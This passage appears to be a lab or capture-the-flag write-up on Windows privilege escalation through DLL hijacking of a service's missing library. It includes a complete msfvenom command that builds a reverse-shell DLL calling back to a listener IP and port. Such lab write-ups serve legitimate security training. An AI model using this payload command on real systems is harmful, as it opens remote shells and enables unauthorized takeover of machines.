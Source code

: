 PowerUp won't find anything.

We have a service: *C:\Scheduler\scheduler.exe* that has a dependency **customlib.dll**.

We will get the executable on our machine and analyze it for DLL hijacking.
Check this: <https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking#finding-missing-dlls>
We will find:
![unnamed_bdd640fb06674ad19c80317fa3b1799d](./unnamed_bdd640fb06674ad19c80317fa3b1799d.png)
**beyondhelper.dll** is missing.
We will create a malicious DLL (make sure to use x64 arch).

```sh
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.45.227 LPORT=80 -f dll -o beyondhelper.dll
```
